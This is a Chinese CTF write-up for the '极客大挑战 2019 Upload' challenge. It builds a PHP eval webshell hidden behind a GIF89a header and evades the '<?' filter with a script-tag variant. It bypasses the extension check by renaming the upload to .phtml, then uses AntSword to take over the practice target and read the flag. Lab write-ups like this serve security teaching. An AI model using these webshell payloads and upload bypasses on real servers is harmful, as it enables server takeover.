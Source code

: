 ```yaml
---
title: 极客大挑战 2019 Upload
date: 2023-10-24
categories:
  - CTF
  - Web
---
```


## 前置工作

打开靶机，看到的就是如此简简单单的文件上传入口，通常这种文件上传的就应该想到**一句话木马**，然后使用**蚁剑**获得靶机的操控权

![](https://p.sda1.dev/13/bb15d8379c77045d0f53ae2a835ae7b8/image.png)

通常我们会这么写一句话木马

```php
  <?php @eval($_POST['蚁剑连接密码']);?>
```

网页的标题名字叫`上传头像`，说明我最好伪造一个图片文件，把木马植入进去

## 图片木马

为什么要伪造 GIF 作为木马图片，因为文件头是固定的，如果你的文件头是 `GIF89a?`，那么你就是一张 GIF 图片（不论你后面跟着的是什么），所以我们就用最简单的方法制作一个 GIF 图片木马，以下是 `a.gif` 的代码

```php
GIF89a?
<?php @eval($_POST['attack']);?>
```

随后我们上传 `a.gif`，发现报错 `NO! HACKER! your file included '<?'`，说明他检测到了我木马文件中的 `<?php` 字段，那么我现在希望的是能绕过这个检测，这就需要 PHP 的另一种写法了

![](https://p.sda1.dev/13/cd365affb109724c4c785c059f3db2fa/image.png)

## 木马改进

除了使用 `<?php ?>` 的方式声明 PHP 代码，我们还能够使用传统的 JS 脚本声明方法，即 `<script lang="php"></script>`，这就能够绕过 `<?php` 的检测，以下是改进后的木马

```php
GIF89a?
<script lang="php">
    @eval($_POST['attack']);
</script>
```

我们把改进后的 `a.gif` 上传，发现上传已完成，但是 `.gif` 的格式摆脱不了被当成图片处理的本质，我们需要对后缀进行更改

![](https://p.sda1.dev/13/4235037389767da5dc5413f31a3e8b7a/image.png)

## 后缀更改

我们使用 Burp Suite 进行第二次上传，使用拦截模式提供的内嵌浏览器，将刚才的 `a.gif` 再一次上传，此时查看 Burp Suite 发现已经将 Http 请求拦截下来了

![](https://p.sda1.dev/13/abe920c6faaf9362e8497c31e8a05067/image.png)

在第 16 行有一个 `filename="a.gif"` ，我们直接点，把 `.gif` 改成 `.php`，并放行，发现报错

![](https://p.sda1.dev/13/ab210ba8d1012b18d62f1dd45eebfb0b/image.png)

说明我们不能很单纯地使用 `.php` 后缀，但是实际上不仅仅有 `.php` 后缀的文件才能被执行，我们可以使用变式后缀，例如 `.phtml`，打开的时候也会被当成 PHP 文件执行，于是我们更改 `filename="a.phtml"`，再次放行

![](https://p.sda1.dev/13/29d4bc4b071bb1912322896834a60496/image.png)

## 攻入靶机

发现文件已经成功上传，我们猜测保存在根目录，尝试访问 `/a.phtml`，发现不存在，再次猜测保存在 `/upload` 目录，尝试访问 `/upload/a.phtml`，发现能够访问，但是除了第一行的 `GIF89a?` 之外没有任何内容，此时是正常情况，我们已经可以利用蚁剑进行连接了，我们打开蚁剑，右键添加数据，按照如下图所示填写内容，连接密码即在一句话木马中，随后点击测试连接，提示连接成功，点击添加即可

![](https://p.sda1.dev/13/c06ea551e002ae398d235a923581fce2/image.png)

随后如下页面右键选择文件管理

![](https://p.sda1.dev/13/6d4407c792a5b3622afca08488f6bee7/image.png)

进入后直接往根目录去看，拉到底一下就发现了 `flag` 文件

![](https://p.sda1.dev/13/bb24c5cdb9de05545880c455bdf5c470/image.png)

点开就能看到 Flag 了，最终结果为 `flag{8cf43e2c-bfc7-4900-80d7-900ff5512f1a}`